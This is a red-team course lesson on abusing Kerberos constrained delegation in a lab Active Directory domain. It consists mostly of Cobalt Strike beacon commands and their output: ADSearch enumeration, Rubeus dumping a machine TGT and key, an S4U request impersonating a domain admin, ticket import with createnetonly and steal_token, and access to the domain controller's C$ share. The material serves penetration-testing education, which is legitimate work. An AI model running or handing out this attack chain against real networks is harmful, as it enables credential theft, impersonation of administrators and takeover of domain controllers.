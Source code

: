 Constrained delegation was later introduced with Windows Server 2003 as a safer means for services to perform Kerberos delegation.  It aims to restrict the services to which the server can act on behalf of a user.  It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/4d5/4d0/242/constrained.png)

  

In this case, SQL-2 can act on behalf of _any_ user to the _cifs_ service on DC-2.  CIFS is very powerful, as it allows you to list file shares, upload and download files, and even interact with the Service Control Manager.

To find computers configured for constrained delegation, search for those whose  `msds-allowedtodelegateto` attribute is not empty.
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
[
  {
    "dnshostname": "sql-2.dev.cyberbotic.io",
    "samaccountname": "SQL-2$",
    "msds-allowedtodelegateto": [
      "cifs/dc-2.dev.cyberbotic.io/dev.cyberbotic.io",
      "cifs/dc-2.dev.cyberbotic.io",
      "cifs/DC-2",
      "cifs/dc-2.dev.cyberbotic.io/DEV",
      "cifs/DC-2/DEV"
    ]
  }
]
```

  Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

To perform the delegation, we need the TGT of the principal (computer or user) trusted for delegation.  The most direct way is to extract it with Rubeus `dump`:
```
beacon> run hostname
sql-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                    | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
| 0x3e4    | sql-2$ @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 9/6/2022 7:06:50 PM |

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

    ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm             :  DEV.CYBERBOTIC.IO
    UserName                 :  SQL-2$
    UserRealm                :  DEV.CYBERBOTIC.IO
    StartTime                :  9/6/2022 9:06:50 AM
    EndTime                  :  9/6/2022 7:06:50 PM
    RenewTill                :  9/13/2022 9:06:50 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  pj1tbiijFCGHkM6S58ShgxxPi8FvA1UB5liBqrSWPCg=
    Base64EncodedTicket   :

doIFpD[...]MuSU8=
```

  You can also request one with Rubeus `asktgt` if you have NTLM or AES hashes.

  

With the TGT, perform an S4U request to obtain a usable TGS for CIFS.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'SQL-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2self request to 10.10.122.10:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'SQL-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFnD[...]FMLTIk

[*] Impersonating user 'nlamb' to target SPN 'cifs/dc-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/dc-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2proxy request to domain controller 10.10.122.10:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc-2.dev.cyberbotic.io':

      doIGaD[...]ljLmlv
```
  

Where:

- `/impersonateuser` is the user we want to impersonate - they should have local admin access on the target machine.  nlamb is a domain admin which is required for accessing the domain controller.  
- `/msdsspn` is the service principal name that SQL-2 is allowed to delegate to.
- `/user` is the principal allowed to perform the delegation.
- `/ticket` is the TGT for `/user`.

This will perform an S4U2Self first and then an S4U2Proxy.  It's this final S4U2Proxy ticket that we need.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5540
[+] Ticket successfully imported!
[+] LUID            : 0x3d3194

beacon> steal_token 5540

beacon> ls \\dc-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:44:08   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 16:09:55   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 10:51:51   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/05/2022 17:17:48   ProgramData
          dir     08/15/2022 15:23:23   Recovery
          dir     08/16/2022 12:37:38   Shares
          dir     09/05/2022 12:03:43   System Volume Information
          dir     08/15/2022 15:24:39   Users
          dir     09/05/2022 17:09:56   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 1kb      fil     08/15/2022 16:16:13   dc-2.dev.cyberbotic.io_sub-ca.req
 12kb     fil     09/05/2022 07:25:58   DumpStack.log
 12kb     fil     09/06/2022 09:04:41   DumpStack.log.tmp
 384mb    fil     09/06/2022 09:04:41   pagefile.sys
```

  Make sure to always use the FQDN.  Otherwise, you will see 1326 errors.  
  
```
beacon> ls \\dc-2\c$
[-] could not open \\dc-2\c$\*: 1326 - ERROR_LOGON_FAILURE
```